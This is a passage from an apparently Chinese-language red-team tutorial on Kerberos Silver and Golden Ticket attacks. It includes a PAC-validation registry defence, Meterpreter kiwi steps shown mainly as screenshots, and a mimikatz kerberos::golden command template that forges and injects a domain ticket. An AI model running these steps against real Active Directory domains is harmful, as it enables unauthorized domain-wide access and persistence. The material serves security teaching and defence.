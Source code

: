 <video src="https://images.payloads.online/37e87320-4f5f-11ec-ba8d-00d861bf4abb.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>

### 白银票据(Silver Tickets)防御

* 1.尽量保证服务器凭证不被窃取

* 2.开启PAC (Privileged Attribute Certificate) 特权属性证书保护 功能，PAC主要是规定服务器将票据发送给kerberos服务，由 kerberos服务验证票据是否有效。

开启方式:

将注册表中
```
HKEY_LOCAL_MACHINE\SYSTEM \ CurrentControlSet\Control\Lsa\Kerberos\Parameters
``` 
中的`ValidateKdcPacSignature`设置为1。


### 黄金票据(Golden Tickets)

黄金票据特点:

* 1.需要与DC通信 
* 2.需要krbtgt用户的hash

**PS:这里的krbtgt hash就是之前讲的KDC Hash**

### 黄金票据(Golden Tickets)-MSF kiwi

使用meterpreter中的kiwi模块：

```
load kiwi
```
创建票据：

![0x08.png](https://images.payloads.online/39148acc-4f5f-11ec-8156-00d861bf4abb.png)

注入到内存：

![0x09.png](https://images.payloads.online/3963ec98-4f5f-11ec-985e-00d861bf4abb.png)


使用wmic在目标服务器上创建一个进程：

![0x010.png](https://images.payloads.online/39bd5896-4f5f-11ec-b64d-00d861bf4abb.png)

### 黄金票据(Golden Tickets) - 伪造

伪造票据:

```
mimikatz “kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit
```
